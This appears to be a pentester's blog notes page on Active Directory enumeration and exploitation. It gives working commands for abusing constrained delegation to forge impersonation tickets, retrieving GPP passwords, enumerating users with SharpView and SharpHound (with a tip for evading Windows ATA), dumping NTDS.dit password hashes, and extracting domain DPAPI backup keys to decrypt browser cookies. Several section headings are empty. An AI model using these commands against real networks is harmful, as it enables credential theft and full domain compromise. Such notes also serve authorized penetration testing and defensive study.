 ```yaml
---
date: 2020-04-09 23:00:00 +0000
title: Active Directory Enumeration and Exploitation
description: Notes on AD Enumeration and Exploitation
categories: ActiveDirectory

---
```

### SharpView

SharpView has a number of useful functions that can be used to get information:

    

### Kerberos Exploitation

#### Unconstrained Delegation

#### Constrained Delegation

If a target computer has the "msDS-AllowedToDelegateTo" and includes an account which an attacker controls(either through ACLs or local administrator rights), then they can compromise the target computer through s4U2Self and S4U2Proxy. Additionally, if computer account NTLM credentials can be relayed to a DC over LDAP, then it is possible to use ntlmrelayx to modify the "msDS-AllowedToDelegateTo" propery in order to include a computer account under control of an attacker. This means that an attacker can then compromise this relayed computer.

An example of creating these types of impersonation tickets with Impacket is shown below:

    proxychains getST.py -dc-ip ip_address -spn cifs/DC01 'DOMAIN/WS01$' -hashes 'LM:NT' -impersonate domain_account

#### Constrained Resource Delegation

Uses "msDS-AllowedToActOnBehalfOfOtherIdentity" property on computer object. An attacker has "GenericWrite" over the target computer object, they can modify the "AllowedToAct" and include an SPN which they control.

#### SPNs

#### ASRepRoast

### GPP Passwords

The following tool can be used to pull down the GPP preference file from a domain controller in order to retrieve the password, this does not rely on policy files being cached on the target host:

    execute-assembly Net-GPPPassword

### AD User Enumeration

    execute-assembly SharpView.exe Get-NetUser -Name username

    execute-assembly SharpView.exe Get-NetUser -Properties manager,department,..

#### SharpHound

SharpHound can be used to enumerate all collections from a domain, using the following command:

    execute-assembly ADEnum.exe -c All --zipFileName ad -Domain

To avoid querying the domain controllers in cases where Windows ATA is in use, use the -ExcludeDC command.

### Dumping NTDS.dit

A number of ways can be used to dump the NTDS.dit database depending on the situation. If remote code execution is valid, then impacket modules such as secretdump through proxychains, however this process could be time consuming.

    proxychains secretdump.py -just-dc-ntlm domain/user@dc_ip

Another approach is to use ntdsutil and copy the folder from the DC:

    ntdsutil "ac i ntds" "ifm" "create full c:\temp\ntdsdump" q q

### Dumping DPAPI Backup Keys

.\\SharpChrome.exe backupkey /server:dc01 /file:key.pvk

    [*] Action: Retrieve domain DPAPI backup key

    [*] Using server                     : dc01

    [*] Preferred backupkey Guid         : [guid]

    [*] Full preferred backupKeyName     : [backupkeyname]

    [*] Backup key written to            : key.pvk

    .\SharpChrome.exe cookies /server:workstation /pvk:key.pvk